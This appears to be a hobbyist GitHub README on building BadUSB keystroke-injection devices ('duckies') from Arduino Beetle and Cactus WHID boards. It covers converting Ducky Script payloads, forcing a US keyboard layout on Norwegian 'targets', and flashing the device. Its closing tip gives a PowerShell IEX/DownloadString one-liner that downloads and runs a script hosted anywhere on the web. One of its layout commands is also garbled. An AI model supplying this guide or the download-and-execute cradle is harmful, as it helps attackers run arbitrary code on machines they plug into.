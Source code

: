 # Duckies

## What to buy
**NOTE** The Arduino Beetle doesn't use ducky script, but Arduino Sketches. Luckily, there's an online converter, so you only need to focus on the Ducky Script linked below.
* [BadUSB Beetle - Arduino Leonardo R3 DC 5v 16MHz](https://www.aliexpress.com/item/32954241500.html?spm=a2g0s.9042311.0.0.6efa4c4dXO8gwF)
* [Cactus WHID (WiFi Duckie)](https://www.aliexpress.com/item/32318391529.html?spm=a2g0s.9042311.0.0.6efa4c4dXO8gwF)


## The scripting language
[Ducky Script](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Duckyscript)
### Convert from Ducky Script to Arduino Sketch
[Converter](http://roothaxor.gitlab.io/ducky2arduino_stable/)

## Norwegian specific
The Ducky types using US_ENGLISH keyboard layout, meaning the payloads won't work on targets using the Norwegian keyboard layouts. The work-around is to change the layout to US_ENGLISH at the beginning of the script, then whatever payload, then optionally change it back.

The script I'm using:
From NOR to ENG - 
`PowerShell Set/WinUserLanguageList /LanguageList en/US, nb /Force`

And from ENG to NOR - 
`PowerShell Set-WinUserLanguageList -LanguageList nb, en-US -Force`

Alternatively, you can map out the US_ENGLISH keystrokes to the corresponding NORWEGIAN-layout.

## To get the script on to your duck
You need to download and install (duh) the [Arduino IDE](https://www.arduino.cc/download_handler.php)

1. Write / Paste converted code
2. Verify the code
3. Compile ("Push" to Arduino device) 

**NB!!!** the script will execute after compile is done

![](https://github.com/datasnoken/duckies/blob/master/arduinoIDE.PNG)



## Tips

### More payloads
Google "Rubber Ducky Payloads" -> Convert them to arduino sketches -> Don't forget to change the keyboard layout -> Verify + Compile

### Find a way to do it in Powershell, and run the script from the web as so:

`IEX ((New-Object System.Net.Webclient).DownloadString(\"YOUR_SCRIPT_HOSTED_ON_SOME_SITE_AS_RAW\")); exit`


